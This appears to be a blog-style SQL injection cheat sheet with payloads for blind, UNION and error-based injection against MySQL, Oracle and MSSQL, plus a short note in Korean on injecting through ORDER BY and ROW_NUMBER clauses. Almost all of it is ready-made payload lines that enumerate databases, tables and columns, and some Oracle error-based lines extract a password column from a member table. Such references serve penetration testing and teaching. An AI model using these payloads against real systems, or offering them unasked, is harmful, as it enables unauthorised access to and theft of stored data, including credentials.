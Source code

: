 ```yaml
---
title: SQLi Cheat Sheet
categories: [Notes, Cheat Sheet]
tags: [Cheat Sheet, SQLi]
image:
  path: /assets/post/2025/Notes/Cheat Sheet/thumb.jpg
  alt: SQL Cheat Sheet Notes
published: true
---
```


## **1. Blind SQL Injection**

### **1-1. MySQL**

```
%' and database()='{DATABASE NAME}' and 1=1 #
%' and ascii(substr(database(),1,1))<128 and 1=1 # 
%' and LENGTH(database())<10 and 1=1 # 
%' and LENGTH((select table_name from information_schema.tables where table_schema = '{DATABASE_NAME}' limit 0,1))=1
%' and ascii(substr((select table_name from information_schema.tables where table_schema = '{DATABASE_NAME}' limit 0,1),1,1))<128
%' and length((select column_name from information_schema.columns WHERE table_name='{TABLE_NAME}' limit 0,1)) = 2
%' and ascii(substr((select column_name from information_schema.columns WHERE table_name='{TABLE_NAME}' limit 0,1),1,1))<128 #
%' and (select count('{TABLE_NAME}') from information_schema.columns WHERE table_name='{TABLE_NAME}')<10 and 1=1 # 
%' and ascii(substr((SELECT answer FROM answer LIMIT 0, 1),1,1))<128 #
```

---

### **1-2. Oracle**

```
# WHERE Clause Exploit Payloads
%' AND (SELECT COUNT(TABLE_NAME) FROM ALL_TABLES) < 128 --
%' AND ASCII(SUBSTR((SELECT TABLE_NAME FROM (SELECT TABLE_NAME, ROWNUM AS RNUM FROM USER_TABLES) WHERE RNUM=1), 1, 1)) < 128--
%' AND (SELECT COUNT(COLUMN_NAME) FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='{TABLE_NAME}') = 10 --
%' AND ASCII(SUBSTR((SELECT COLUMN_NAME FROM (SELECT COLUMN_NAME, ROWNUM AS RNUM FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='{TABLE_NAME}') WHERE RNUM=1), 1, 1)) < 128--
%' AND (SELECT COUNT('{COLUMN_NAME}') FROM '{TABLE_NAME}') < 100 --
%' AND ASCII(SUBSTR((SELECT '{COLUMN_NAME}' FROM (SELECT '{COLUMN_NAME}', ROWNUM AS RNUM FROM '{TABLE_NAME}') WHERE RNUM=1), 1, 1)) < 128--
%25' and user='SHOP' and '1%25'='1

# ORDER BY Clause Exploit Payloads
SELECT ID, FIRST_NAME FROM {TABLE_NAME} ORDER BY ID DESC,(SELECT CASE WHEN 1=2 THEN 1 ELSE (SELECT 1 FROM DUAL UNION SELECT 2 FROM DUAL) END FROM DUAL);
SELECT ID, FIRST_NAME FROM {TABLE_NAME} ORDER BY ID DESC,(SELECT CASE WHEN 1=2 THEN 1 ELSE 1/0 END FROM DUAL);
```

---

### **1-3. MSSQL**

```
%') and ASCII(SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.columns WHERE table_name='{TABLE_NAME}'),1,1)) < 128 and 1=1 --
SELECT COUNT(column_name) FROM INFORMATION_SCHEMA.columns WHERE table_name='{TABLE_NAME}'
```

---

## **2\. UNION SQL Injection**

#### **2-1. MySQL**

```
%' UNION SELECT TALBE_NAME, 1, 1, 1 FROM INFORMATION_SCHEMA.tables WHERE TABLE_SCHEMA='{DATABASE_NAME}'
%' UNION SELECT TABLE_NAME, 1, 1, 1 FROM INFORMATION_SCHEMA.TABLES
%' UNION SELECT TABLE_CATALOG, TABLE_SCHEMA, TABLE_NAME, TABLE_TYPE FROM INFORMATION_SCHEMA.TABLES
%' UNION SELECT COLUMN_NAME, 1, 1, 1 FROM INFORMATION_SCHEMA.COLUMNS
```

---

### **2-2. Oracle**

```
%' UNION SELECT null, null, null, null FROM dual --
%' UNION SELECT null, TABLE_NAME from ALL_TABLES --
%' UNION SELECT null, {COLUMN_NAME} from all_tab_columns where table_name='{TABLE_NAME}' --
%' UNION SELECT null, {COLUMN_NAME}, null, null from {TABLE_NAME} --
%' UNION SELECT 1, user, null, null from dual where '1%25'='1
```

---

### **2-3. MSSQL**

```
-
```

---

## **3\. Error-based SQL Injection**

### **3-1. MySQL**

```
' AND extractvalue(rand(),concat(0x3a,database()))--
' AND extractvalue(rand(),concat(0x3a,(SELECT+concat(0x3a,TABLE_NAME)+FROM+INFORMATION_SCHEMA.TABLES+WHERE+TABLE_SCHEMA='{TABLE_SCHEMA}'+LIMIT+0,1)))--
' AND extractvalue(rand(),concat(0x3a,(SELECT+concat(0x3a,COLUMN_NAME)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_SCHEMA='{TABLE_SCHEMA}'+AND+TABLE_NAME='{TABLE_NAME}'+LIMIT+0,1)))--
' AND extractvalue(rand(),concat(0x3a,(SELECT+concat('{COLUMN_NAME}')+FROM+{TABLE_NAME}+LIMIT+0,1)))--
```

---

### **3-2. Oracle**

```
%' AND CTXSYS.DRITHSX.SN(user, SELECT COUNT(TABLE_NAME) FROM USER_TABLES))=1 --
%' AND CTXSYS.DRITHSX.SN(user, (SELECT TABLE_NAME FROM (SELECT TABLE_NAME, ROWNUM AS RNUM FROM USER_TABLES) WHERE RNUM=1))=1 --
%' AND CTXSYS.DRITHSX.SN(user, (SELECT COUNT(COLUMN_NAME) FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='{TABLE_NAME}'))=1 --
%' AND CTXSYS.DRITHSX.SN(user, (SELECT COLUMN_NAME) FROM (SELECT COLUMN_NAME, ROWNUM AS RNUM FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='{TABLE_NAME}') WHERE RNUM=3))=1 --
%' AND CTXSYS.DRITHSX.SN(user, (SELECT COUNT(PASS) FROM MEMBER))=1 --
%' AND  CTXSYS.DRITHSX.SN(user, (SELECT PASS FROM (SELECT PASS, ROWNUM AS RNUM FROM MEMBER) WHERE RNUM=1))= 1--

491%25' and ctxsys.drithsx.sn(user,(select 'jang : ['||user||'] : han' from dual))=1 and '1%25'='1
```

---

### **3-3. MSSQL**

```
-
```

---

## **4\. Others**

### **4-1. ROW\_NUMBER() \[MySQL / Oracle / MSSQL\]**

```
SELECT ROW_NUMBER() OVER(
	PARTITION BY T1.JOB
    	ORDER BY T1.JOB, T1.ENAME, [ATTACK_SURFACE_TABLE]
    ) AS ROW_NUM, T1.*
FROM EMP T1
ORDER BY T1.JOB, T1.ENAME;
```

- 위 SQL 쿼리문에서 "ATTACK_SURFACE_TABLE" 컬럼이 사용자에게 입력받은 파라미터라면 인젝션 가능 여부 테스트 필요


- 아래와 같은 공격 구문에서 (TABLE_001, TABLE_002, etc.) 컬럼명을 user, SYS_DATABASE_NAME 등으로 변조하여 데이터 확인 가능

```
ATTACK_SURFACE_TABLE ASC) AS ROW_NUM, TABLE_001, TABLE_002, TABLE_003%20--
```

---

### **4-2. 데이터베이스 버전(Version) 확인**

```
SELECT version FROM PRODUCT_COMPONENT_VERSION WHERE product LIKE 'Oracle Database%';
SELECT version FROM PRODUCT_COMPONENT_VERSION WHERE rownum=1;
```

---

## **5\. Reference**

> 1. https://pentestmonkey.net/cheat-sheet/sql-injection/informix-sql-injection-cheat-sheet
> 2. https://sqltest.net/

---

<h2 style="text-align: center;" data-ke-size="size26"><b>END</b></h2>